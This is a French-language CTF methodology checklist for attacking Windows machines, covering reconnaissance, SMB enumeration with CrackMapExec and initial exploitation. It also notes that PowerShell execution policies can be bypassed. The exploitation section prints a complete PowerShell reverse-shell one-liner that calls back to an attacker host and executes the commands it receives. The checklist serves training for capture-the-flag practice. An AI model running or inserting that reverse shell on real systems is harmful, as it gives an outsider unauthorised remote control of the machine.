 - [ ] **Reconnaissance spécifique à Windows**
  
  La reconnaissance des machines Windows nécessite une attention particulière aux services spécifiques à cet écosystème. Recherchez les ports associés à Active Directory (même si la machine n'est pas une AD box), SMB, RDP, WinRM et les services web IIS. La version précise de Windows est cruciale car les vecteurs d'exploitation varient considérablement entre Windows 7, 8, 10 ou les versions serveur.
  
  Les machines Windows dans les CTF exposent souvent des partages SMB mal configurés ou des services web avec des vulnérabilités d'authentification. Utilisez des outils comme CrackMapExec pour une énumération initiale efficace.
  
  ```bash
  # Énumération SMB approfondie
  crackmapexec smb <ip> --shares
  ```
  
  > *Question*: S'agit-il d'une version client (Windows 7/10) ou serveur (2012/2016/2019)? Les vecteurs d'attaque diffèrent significativement.

- [ ] **Énumération spécifique à Windows**
  
  L'énumération Windows doit se concentrer sur les services exposés, les partages réseau, et les applications installées. Contrairement à Linux, Windows stocke beaucoup d'informations dans le registre, qui peut contenir des identifiants ou des configurations sensibles.
  
  Les applications web sur Windows sont souvent hébergées sur IIS et peuvent utiliser des technologies .NET, ASP classique ou PHP. Chacune a ses propres vulnérabilités et emplacements de fichiers de configuration. Examinez attentivement `C:\inetpub\wwwroot\` et `C:\Windows\Temp\` qui contiennent souvent des fichiers intéressants dans les CTF.
  
  ```bash
  # Si vous avez un shell, énumérer les applications installées
  wmic product get name,version
  
  # Vérifier les utilisateurs locaux
  net user
  ```
  
  > *Question*: Y a-t-il des applications métier personnalisées installées qui pourraient avoir des vulnérabilités?

- [ ] **Exploitation spécifique à Windows**
  
  L'exploitation des machines Windows dans les CTF repose souvent sur des services mal configurés, des applications vulnérables ou des problèmes de gestion des privilèges. Contrairement à Linux, obtenir un shell initial peut être plus complexe et nécessiter des outils spécifiques comme PowerShell Empire, Covenant ou Metasploit.
  
  Les shells Windows sont généralement moins stables que leurs homologues Linux. Privilégiez les shells PowerShell ou meterpreter pour une meilleure stabilité et fonctionnalité. N'oubliez pas que PowerShell peut être restreint par des politiques d'exécution, mais celles-ci peuvent souvent être contournées.
  
  ```powershell
  # Exemple de reverse shell PowerShell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.X',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```
  